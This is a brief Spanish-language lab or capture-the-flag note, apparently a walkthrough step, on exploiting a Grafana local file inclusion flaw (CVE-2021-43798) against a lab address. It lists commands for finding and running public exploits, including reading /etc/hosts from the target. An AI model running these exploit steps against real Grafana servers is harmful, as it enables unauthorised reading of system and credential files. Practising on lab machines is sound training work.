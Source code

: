 
### EXPLOTAR GRAFANA LFI
```shell
❯ searchsploit grafana
```

**LFI**
```shell
# METODO 1
❯ python3 50581.py -H http://10.10.11.183:3000
Read file > /etc/hosts

# METODO 2
❯ git clone https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798.git
❯ nvim targets.txt
❯ cat targets.txt
	http://10.10.11.183:3000
❯ python3 exploit.py
```